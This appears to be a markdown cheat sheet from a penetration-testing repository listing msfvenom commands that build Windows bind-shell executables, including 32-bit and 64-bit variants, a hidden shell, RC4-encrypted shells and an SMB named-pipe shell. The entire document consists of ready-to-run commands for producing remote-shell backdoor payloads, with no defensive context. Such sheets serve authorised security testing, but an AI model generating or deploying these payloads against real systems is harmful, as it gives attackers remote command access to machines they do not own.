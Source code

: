 # Bind Shells

## 01 - x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f exe -o shell-x86.exe

$ msfvenom -p windows/shell/bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-shell-x86.exe

$ msfvenom -p windows/shell/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o shell-x86.exe
```

For the SMB pipe the default for LPORT will always be port 445

```
$ msfvenom -p windows/shell/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o shell-x86.exe
```

## 02 - x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell/bind_tcp lport=<PORT> -f exe -o shell-x86-64.exe

$ msfvenom -p windows/x64/shell/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o shell-x86-64.exe
```